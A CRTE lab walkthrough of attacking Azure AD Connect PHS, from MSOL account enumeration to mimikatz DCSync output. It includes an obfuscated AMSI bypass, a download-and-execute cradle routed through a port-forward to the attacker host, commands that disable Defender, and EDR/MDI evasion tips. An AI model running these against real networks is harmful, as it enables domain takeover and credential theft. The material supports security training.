CRTE - Certified Red Team Expert
Cross Domain Attacks - Attacking Azure AD Integration PHS
Attacking Azure AD Integration – From On-Prem to Cloud Compromise
Azure Active Directory (Azure AD) is the foundation of identity management in Microsoft’s cloud ecosystem. Many organizations integrate their on-premises Active Directory (AD) with Azure AD using a hybrid identity model, allowing seamless authentication between cloud and on-prem environments. While this improves user experience with Single Sign-On (SSO), it also introduces serious security risks. Attackers can exploit misconfigurations in hybrid identity synchronization to gain unauthorized access, move laterally between on-prem AD and Azure AD, and ultimately compromise cloud resources.Understanding Azure AD Connect and Hybrid Identity Weaknesses
Azure AD Connect is the bridge between on-prem AD and Azure AD. It synchronizes identities, ensuring that users can log into cloud services using their on-prem credentials. The synchronization process follows three main methods: Password Hash Synchronization (PHS), Pass-Through Authentication (PTA), and Active Directory Federated Services (ADFS). Each method has unique vulnerabilities, but PHS is particularly interesting because it allows an attacker to pivot from on-prem to cloud using a privileged account (MSOL_) that Azure AD Connect creates.
Password Hash Synchronization (PHS) With Password Hash Synchronization (PHS), the passwords from on-premise AD are actually sent to the cloud, similar to how domain controllers synchronize passwords between each other via replication. This is done from a service account that is created with the installation of AD Connect. This introduces a unique attack path where if the synchronization account is compromised, it has enough privileges that it potentially could lead to the compromise of the on-premise AD forest, as that account is granted replication rights which are needed for DCSync. Realistically, the sync account password should not be known and thus will not be logged in anywhere, however Dirk-jan, during his Troopers 2019 presentation, discovered how to reverse the account’s password from the SQL DB and made a script that would do the hard work.
Pass-Through Authentication (PTA) Pass through authentication keeps the passwords on-premise but also allows the users to have a single password for Azure and on-premise. For example, when a user logins to Outlook on the web, they enter their credentials into the web portal (Azure AD), which Azure then uses PKI to encrypt the credentials and sends them to an agent on-premise. The agent decrypts the credentials and validates it against the DC, which returns a status back to the agent, which is then relayed back to Azure AD. It’s possible to perform DLL injection into the PTA agent and intercept authentication requests, which include credentials in clear-text. @_xpn_ has written an excellent blog post on doing this.
Active Directory Federated Services (ADFS) Azure AD can connect back to on-premise via ADFS. With ADFS, Azure AD is set as a trusted agent for federation and allows login with on-premise credentials.
The MSOL account has directory replication permissions, meaning it can perform a DCSync attack and extract password hashes for all users in the domain. Since the Azure AD Connect server stores this account’s credentials locally in an encrypted format, any attacker with administrative access to this server can decrypt and extract the plaintext password of the MSOL account. With these credentials, an attacker can compromise on-prem AD and potentially escalate into Azure AD.Exploiting Azure AD Connect – Gaining Control of On-Prem and Cloud
The attack begins with identifying the Azure AD Connect server, which is often a highly privileged machine. Once the attacker gains access, they extract the MSOL account password using PowerShell scripts like adconnect.ps1. Since the MSOL account has replication rights, it can dump NTLM hashes, including the krbtgt hash, enabling Golden Ticket attacks. With control over the on-prem AD, the attacker can now move toward Azure AD compromise. Using the extracted MSOL credentials, they authenticate to Azure AD and escalate privileges within the cloud environment. Azure AD’s synchronization cycle runs every two minutes, making MSOL activity blend into normal network traffic, which often allows attackers to bypass detection systems like Microsoft Defender for Identity (MDI).Advanced Attacks on Azure AD and Hybrid Trust Exploitation
Once an attacker gains access to Azure AD, several paths enable persistence and escalation. Pass-Through Authentication (PTA) exploitation allows attackers to manipulate the authentication process by controlling the PTA agent, enabling password theft and potential MFA bypass. Federation abuse involves compromising ADFS or forging SAML tokens, allowing attackers to authenticate as any user. In cross-domain hybrid environments, Azure AD trust relationships can be leveraged for lateral movement. Attackers can modify synchronization settings to grant themselves privileges, inject rogue OAuth applications, or weaken security controls like Conditional Access Policies.Escalation to Full Forest and Cloud Takeover
The real impact of this attack comes when an attacker moves from on-prem Domain Admin to Enterprise Admin and then to Global Admin in Azure AD. With MSOL credentials, an attacker can access cloud resources, modify user roles, and even disable security features. If Azure AD Conditional Access is misconfigured, they can bypass location-based security controls and persist even after password resets.Mitigation and Detection
Defending against these attacks requires securing both on-prem AD and Azure AD. The Azure AD Connect server must be hardened, with limited admin access and strict logging enabled. Defender for Identity and Azure Sentinel should monitor for unusual synchronization activity and unauthorized changes to hybrid authentication settings. Least privilege principles should apply to the MSOL account, reducing its permissions where possible. Organizations should also enforce strong Conditional Access policies, ensuring that even if an attacker compromises an account, they cannot easily escalate privileges.Final Thoughts
Attacking Azure AD Integration exposes weaknesses in hybrid identity synchronization, allowing attackers to compromise both on-prem and cloud environments. By extracting the MSOL account credentials, bypassing MDI, and abusing hybrid trust relationships, an attacker can move from a low-privileged user to Domain Admin, then to Enterprise Admin, and finally to Global Admin in Azure AD. The key to preventing these attacks lies in securing the Azure AD Connect server, monitoring hybrid authentication flows, and restricting synchronization account privileges to minimize the impact of a compromise.
Enumerating Azure AD Connect Server with ADModule
Before we start our Azure AD Connect server enumeration, execute InvisiShell to bypass PowerShell Defense mechanisms. RunWithRegistryNonAdmin.bat
Let’s now import ADModule so we can start our enumeration with ADModule. Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Let’s now use the ADModule to make the enumeration. Get-ADUser -Filter "SamAccountName -like 'MSOL_'" -Server techcorp.local -Properties | Select SamAccountName,Description | fl
Our enumeration above shows us 3 valid information. the SamAccountName for MSOL account is MSOL_16fb75d0227d, the installation identifier is 16fb75d0227d4957868d5c4ae0688943 and last but not least the Azure AD Connect Server is configured on US-ADCONNECT server.
Enumerating Azure AD Connect Server with PowerView
We can also use PowerView module to enumerate Azure AD Connect Server. Let’s import the PowerView module. Import-module C:\AD\Tools\PowerView.ps1 Get-DomainUser -Identity "MSOL_" -Domain "techcorp.local”
Our enumeration above shows us 3 valid information. the SamAccountName for MSOL account is MSOL_16fb75d0227d, the installation identifier is 16fb75d0227d4957868d5c4ae0688943 and last but not least the Azure AD Connect Server is configured on US-ADCONNECT server.
If we remember, we have compromised an account helpdeskadmin account which has Admin access into US-ADCONNECT server. With this helpdeskadmin we can read MSOL_16fb75d0227d's clear-text’s password. To achieve this task to read the MSOL_16fb75d0227d's clear-text using helpdeskadmin, we will be using adconnect.ps1 script.
Let’s start by elevating our privilege session using Rubeus to request helpdeskadmin’s TGT and inject it into a new process. User: helpdeskadmin NTLM: 94b4a7961bb45377f6e7951b0d8630be AES256: f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534
Let’s encode our Rubeus argument(asktgt) using ArgSplit.bat file and copy/paste the encoded argument into the session where we’ll be executing Rubeus, avoiding this way any possible detection on Rubeus execution, when elevating our session to helpdeskadmin user. Argsplit.bat
Let’s now run our Rubeus in memory using our dotNet loader. C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
We were able to elevate our privilege by spawning a new process as user helpdeskadmin. let’s copy some important files into us-adconnect host since we will be interacting straight on us-adconnect host.
Mapping Shares to local system
Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally. This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target us-adconnect. Remember that we should do this from our session with helpdeskadmin user.
Advantages:- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.To bypass this, you can simply do the whole mapping command and put the password after it is asked. net use x: \\us-adconnect\C$\Users\Public

Let’s now Copy the files we need into our target using xcopy. echo D | XCOPY C:\AD\Tools\InviShell x:InviShell /E /H /C /I /Y
Breaking Down the Command:
- XCOPY → The command for copying files and directories.
- C:\AD\Tools\InviShell → The source folder you want to copy.
- X:InviShell → The destination folder on the mapped drive.
- /E → Copies all subdirectories, including empty ones.
- /H → Copies hidden and system files.
- /C → Continues copying even if errors occur.
- /I → Assumes the destination is a directory (avoids prompts).
- /Y → Suppresses overwrite confirmation prompts.

Now that we do have remotely accessed US-ADCONNECT, let’s run InvisiShell to bypass PowerShell defense mechanisms. .\RunWithRegistryNonAdmin.bat
Now that we ran InvisiShell and we do have a PowerShell, Let’s run adconnect.ps1 script in the memory, avoiding any sort of blocks from MDE and also avoid detection from EDR as well.
We could simply run adconnect.ps1 calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like adconnect.ps1 can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like adconnect.ps1 directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When adconnect.ps1 is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like adconnect.ps1 attempt to access the LSASS process to extract credentials from memory.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call adconnect.ps1 using it’s localhost IP. netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163
1. netsh interface portproxy add v4tov4:
- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Now back to our attacking host, we need to be hosting adconnect.ps1 file. I’ll be using HFS.exe, but this hosting could be done using even python3 as well. Also remember that Defender should be disabled, allowing external networks to make this type of request to internal networks, Remember that by default Microsoft blocks this type of traffic. IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/adconnect.ps1')
Once we execute how command above, our adconnect.ps1 is request and imported into the memory. Please be aware that what we did will just create a new PowerShell process, so we need to bypass AMSI again. We can simply copy/paste our ASMI bypass code into our session.
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( TYpE ) ; ( Get-varIABLE ( ('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"( ${nULl},${tRuE} )
Now we can safely execute our adconnect.
ADconnect
Domain: techcorp.local Username: MSOL_16fb75d0227d Password: 70&n1{p!Mb7K.C)/USO.a{@m
%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYfNote: If you execute adconnect and you get the following error:

You will have to disable Defender with the following command: Set-MPPreference -DisableRealtimeMonitoring $true
Once you were able to retrieve credentials you can enable Defender again with the following command: Set-MPPreference -DisableRealtimeMonitoring $false
DCSync Attack
Since the MSOL account has replication rights, it can dump NTLM hashes, including the krbtgt hash. We simply can go for DCSync attack. We can use RUNAS to spawn a new process as MOSL_ user. This command needs to be executed from an elevated cmd session. runas /user:MSOL_16fb75d0227d /netonly cmd
Once we add MOSL_’s password a new cmd session will spawn. We can use this new session now for DCSync Attack by using Invoke-Mimi.sp1 to DCsync attack. I tried to use SafetyKatz but it did no work at all, so Invoke-Mimi.ps1 is the way in.
Let’s start by spawning a new Powershell session using InvisiShell and bypass PowerShell defense mechanisms. RunWithRegistryNonAdmin.bat
Note: Because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts! We can now use Invoke-Mimi.ps1 Import-Module C:\AD\Tools\Invoke-Mimi.ps1 Invoke-Mimi -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
.#####. mimikatz 2.2.0 (x64) #19041 Dec 23 2022 18:36:14
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## / Benjamin DELPY gentilkiwi ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com /
mimikatz(powershell) # lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\administrator' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : Administrator
SAM ACCOUNT
SAM Username : Administrator
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 7/4/2019 2:01:32 AM
Object Security ID : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID : 500
Credentials:
Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f
ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
ntlm- 1: c87a64622a487061ab81e51cc711a34b
lm - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : f94f43f24957c86f1a2d359b7585b940
Primary:Kerberos-Newer-Keys
Default Salt : TECHCORP.LOCALAdministrator
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
aes128_hmac (4096) : 1470b3ca6afc4146399c177ab08c5d29
des_cbc_md5 (4096) : c198a4545e6d4c94
OldCredentials
aes256_hmac (4096) : 9de1b687c149f44ccf5bb546d7c5a6eb47feab97bc34380ee54257024a43caf0
aes128_hmac (4096) : f7996a1b81e251f7eb2cceda64f7a2ff
des_cbc_md5 (4096) : 386b3de03ecb62df
Primary:Kerberos
Default Salt : TECHCORP.LOCALAdministrator
Credentials
des_cbc_md5 : c198a4545e6d4c94
OldCredentials
des_cbc_md5 : 386b3de03ecb62df
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 f4e3c69dc427ef76903a65e2848b0f4c
02 bf5ea8567f6fd1ef7f257304278a6e52
03 b3ed9e4019c9c725ae929d0b73cbd852
04 f4e3c69dc427ef76903a65e2848b0f4c
05 5c0f8ba64238288eff440c01bbe81a5e
06 dcc7e5185c6c279b3d10b20af1994cbb
07 50e4e0f1db674508a890e22751797889
08 f0fd75f91cf2843531ff58d83a85b84e
09 bd49a7a6232f85a5b8d8edb68786032b
10 6aabbb1d7742272ceff856b907c5c9ba
11 3a21402317ce21660b2ccb899d783ea3
12 f0fd75f91cf2843531ff58d83a85b84e
13 04f3c03fd2e53ee67fbece68ce267134
14 9a08da7d88d88f8e3b307adee818cc6e
15 da942a6b569ef74ecb675359bc2784eb
16 f783eb704fa6677368309688a31efc97
17 2e4abf671ea3bba742e340f2b25a3970
18 e60715ae3f9dc9d75b3c4aabf36d7a30
19 f0d4e1439ff5452f1a0fffb97e04524e
20 816fb1f321fd9e6936bc86db53375242
21 4e29af591c5b9fc1837a19ec61433da9
22 e238e557513d21c02e67134fd5209e01
23 db8ad27d9ed2dc8fa35d3c546d896b60
24 2c89e15382d83a0e7007b916c5f21925
25 60b33decd4f178a2417b0dc9e776ad3e
26 55584de6c6a3c05c519cbbf35478bbfa
27 c790bb64ca16391e1e9b15c9cb0aad68
28 067ef368529b0ba16bcfd1276c306aea
29 438b45e36bd633e4bedbb3748f3d0c4d